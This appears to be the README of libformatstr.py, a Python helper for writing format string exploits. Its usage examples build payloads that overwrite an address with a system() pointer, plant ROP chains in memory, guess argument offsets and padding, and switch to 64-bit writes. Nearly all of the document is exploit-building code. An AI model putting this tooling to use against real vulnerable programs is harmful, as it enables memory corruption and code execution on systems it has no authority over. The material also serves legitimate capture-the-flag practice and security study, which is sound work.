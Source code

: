 [![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/tools.html#libformatstr)

libformatstr.py
====================

Small script to simplify format string exploitation.

Usage
---------------------

* Case 1 - replace one dword:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
system_addr = 0x080489a3

p = FormatStr()
p[addr] = system_addr

# buf is 14th argument, 4 bytes are already printed
sys.stdout.write( p.payload(14, start_len=4) )
```

* Case 2 - put ROP code somewhere:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
rop = [0x080487af, 0x0804873c, 0x080488de]
p = FormatStr()
p[addr] = rop

sys.stdout.write( p.payload(14) )
```

* Case 3 - guess argument number and padding:

```python
import sys
from libformatstr import FormatStr

# let's say we have do_fmt function,
# which gives us only output of format string
# (you can also just copy fmtstr and output manually)

buf_size = 250  # fix buf_size to avoid offset variation
res = do_fmt(make_pattern(buf_size))
argnum, padding = guess_argnum(res, buf_size)

# of course you can use it in payload generation

p = FormatStr(buf_size)
p[0xbffffe70] = "\x70\xfe\xff\xbf\xeb\xfe"  # yes, you can also put strings

sys.stdout.write( p.payload(argnum, padding, 3) ) # we know 3 bytes were printed already
```
* Case 4 - write something in specificed order:

```python
from libformatstr import FormatStr
f=FormatStr(autosort=False) #This option disables auto sorting
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3

#The payload will write address 0x1234 first,then 0x5678,then 0xabcd.
```

* Case 5 - while you are in amd64:

```python
from libformatstr import FormatStr
f=FormatStr(isx64=1) #This option force script to use 64bit address while generating payload
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3
```
About
---------------------

Author: hellman ( hellman1908@gmail.com )

License: MIT License ( http://opensource.org/licenses/MIT )
